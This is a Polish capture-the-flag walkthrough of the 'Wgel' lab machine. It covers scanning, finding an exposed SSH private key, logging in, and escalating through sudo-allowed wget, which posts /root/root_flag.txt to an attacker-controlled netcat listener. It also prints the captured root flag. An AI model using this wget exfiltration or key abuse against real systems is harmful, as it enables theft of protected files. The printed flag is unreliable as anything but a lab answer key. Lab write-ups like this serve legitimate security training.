# Wgel

IP=10.10.45.81

## Rekonesans
Przeprowadzamy wstępny skan za pomocą narzędzia nmap:

```
sudo nmap -sV -sC 10.10.45.81
```

Otrzymujemy następujące wyniki:

```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-08-07 12:07 EDT
Nmap scan report for 10.10.45.81
Host is up (0.050s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.77 seconds
```

Zostały wykryte dwa porty.

### Port 80
Rozpoczynamy od sprawdzenia portu 80:



Strona przypomina domyślną stronę Apache'a, jednak w źródle znajdujemy ciekawą notkę z nazwą użytkownika:



```
jessie
```

Przechodzimy do enumeracji katalogów przy pomocy narzędzia ffuf:

```
ffuf -w /usr/share/wordlists/dirb/big.txt -u http://10.10.45.81/FUZZ -c -recursion
```



W jednym z katalogów znajdujemy prywatny klucz RSA:



Widzimy, że nie jest on zaszyfrowany, dlatego nie ma potrzeby łamania hasła przy użyciu narzędzia John The Ripper:



### Port 22

Zapisujemy klucz w pliku, nadajemy mu odpowiednie uprawnienia i logujemy się do serwisu SSH:



Odczytujemy pierwszą flagę z pliku user_flag.txt:



## Zwiększenie poziomu uprawnień

Sprawdzamy jakie uprawnienia ma użytkownik jessie komendą sudo -l:



Próbujemy wykorzystać [exploit'a](https://gtfobins.github.io/gtfobins/wget/), aby zyskać uprawnienia root'a, jednak bezskutecznie:



Spróbujmy zatem odczytać drugą flagę bez uprawnień root'a. W tym celu przesyłamy zawartość pliku root_flag.txt na naszą maszynę za pomocą poniższych komend:

```
nc -lvnp [PORT]
```




```
sudo /usr/bin/wget --post-file=/root/root_flag.txt [IP]:[PORT]
```



Odczytujemy drugą flagę:



```
b1b968b37519ad1daa6408188649263d
```

Do zobaczenia na kolejnych CTF-ach!
